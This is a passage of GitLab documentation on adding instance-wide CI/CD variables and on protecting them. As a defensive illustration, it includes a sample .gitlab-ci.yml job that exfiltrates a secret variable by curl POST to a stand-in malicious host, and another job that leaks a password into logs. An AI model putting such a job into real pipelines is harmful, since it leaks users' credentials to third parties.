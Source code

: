 You can make a CI/CD variable available to all projects and groups in a GitLab instance.

Prerequisites:

- You must have administrator access to the instance.

To add an instance variable:

1. On the left sidebar, at the bottom, select **Admin**.
1. Select **Settings > CI/CD**.
1. Expand **Variables**.
1. Select **Add variable** and fill in the details:
   - **Key**: Must be one line, with no spaces, using only letters, numbers, or `_`.
   - **Value**: The value is limited to 10,000 characters, but also bounded by any limits in the
     runner's operating system.
   - **Type**: `Variable` (default) or [`File`](#use-file-type-cicd-variables).
   - **Protect variable** Optional. If selected, the variable is only available in pipelines
     that run on [protected branches](../../user/project/repository/branches/protected.md)
     or [protected tags](../../user/project/protected_tags.md).
   - **Visibility**: Select **Visible** (default), [**Masked**](#mask-a-cicd-variable),
     or [**Masked and hidden**](#hide-a-cicd-variable) (only available for new variables).

## CI/CD variable security

Code pushed to the `.gitlab-ci.yml` file could compromise your variables. Variables could
be accidentally exposed in a job log, or maliciously sent to a third party server.

Review all merge requests that introduce changes to the `.gitlab-ci.yml` file before you:

- [Run a pipeline in the parent project for a merge request submitted from a forked project](../pipelines/merge_request_pipelines.md#run-pipelines-in-the-parent-project).
- Merge the changes.

Review the `.gitlab-ci.yml` file of imported projects before you add files or run pipelines against them.

The following example shows malicious code in a `.gitlab-ci.yml` file:

```yaml
accidental-leak-job:
  script:                                         # Password exposed accidentally
    - echo "This script logs into the DB with $USER $PASSWORD"
    - db-login $USER $PASSWORD

malicious-job:
  script:                                         # Secret exposed maliciously
    - curl --request POST --data "secret_variable=$SECRET_VARIABLE" "https://maliciouswebsite.abcd/"
```

To help reduce the risk of accidentally leaking secrets through scripts like in `accidental-leak-job`,
all variables containing sensitive information should always be [masked in job logs](#mask-a-cicd-variable).
You can also [limit a variable to protected branches and tags only](#protect-a-cicd-variable).
